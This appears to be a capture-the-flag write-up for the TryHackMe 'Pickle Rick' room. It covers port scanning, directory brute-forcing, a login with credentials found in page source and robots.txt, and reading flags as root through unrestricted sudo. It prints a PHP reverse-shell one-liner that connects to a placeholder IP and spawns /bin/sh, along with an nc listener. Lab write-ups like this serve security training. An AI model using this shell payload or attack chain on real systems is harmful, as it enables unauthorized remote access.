







# Pickle Rick

Room: [https://tryhackme.com/room/picklerick](https://tryhackme.com/room/picklerick)

## Nmap 

We will first run nmap on our target ip machine to find which ports are open and what services they are running.

`nmap -p- -T4 -sC -sV 10.49.171.155 -o nmap.txt`

we can see that we have two ports open.

**port 22** which is running **ssh**.

**port 80** which is running **http**.

## HTTP

Reading the html code, we can find a username we can use later.

Running gobuster on the target reveals login.php and robots.txt. We can find the password on robots.txt. 

`gobuster dir -u http://10.49.171.155/ -w /usr/share/wordlists/dirb/common.txt -x php,txt`

Using the username we found before, we can login at login.php and we get a command panel.

## Shell

We can use this command panel to get a reverse shell.
`php -r '$sock=fsockopen("<IP>",1234);exec("/bin/sh -i <&3 >&3 2>&3");'`
`nc -nvlp 1234`

## First Ingredient

We can find the first ingredient in the /var/www/html directory.

`cat Sup3rS3cretPickl3Ingred.txt`

## Second Ingredient

We can find the second ingredient in the /home/ricky directory. The file is owned by root but anyone can read it.

`cat 'second ingredients`

## Third Ingredient

Running `sudo -l` reveals that we can run any command as root. So we can just `sudo cat /root/3rd.txt` to get the third ingredient.

